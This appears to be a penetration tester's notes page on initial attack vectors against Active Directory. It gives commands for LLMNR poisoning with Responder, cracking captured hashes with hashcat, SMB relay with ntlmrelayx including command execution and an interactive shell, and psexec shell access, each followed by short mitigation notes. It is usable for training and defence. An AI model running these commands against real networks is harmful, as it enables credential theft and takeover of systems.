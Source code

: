 # AD Initial attack vector

## LLMNR poisoning

<figure><img src=".gitbook/assets/Capture d&#x27;écran 2024-05-06 003240.png" alt=""><figcaption></figcaption></figure>

```
sudo responder -I <interface> -dwPv
# crack hash 
hashcat -m 5600 <hash.txt> <wordlist>
```

### Mitigation

```
# Disable LLMNR
# Disable NBT-NS


#If we can't disable
# Require network access control
# Require strong password policy

```

## SMB Relay

* SMB Signing disabled on target

```bash
nmap --script=smb2-security-mode.nse -p445 <ip>/24
# work if message signing is enabled but not required
# In /etc/responder/Responder.conf disable smb and http -> Not capture its but relay its

# create target.txt and put ip addresses

responder -I <interface> -dwPv 

# ntmrelayx for relay hash
sudo ntlmrelayx.py -tf targets.txt -smb2support
# after intercepted
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
# Interactive mode ( connect with netcat after that)
sudo ntlmrelayx.py -tf targets.txt -smb2support -i

```

### Mitigation&#x20;

* Enable smb signing on all devices
* Disable ntlm auth on network
* Account tiering
* Local administration&#x20;

## Gaining shell access

```
use exploit/windows/smb/psexec
set RHOSTS <rhost>
set SMBDomain <domain>
set SMBUser <user>
set SMBPass <pass>
```

Use psexec.py

```
psexec.py <domain>/<user>:'<pass>'@<ip>

```
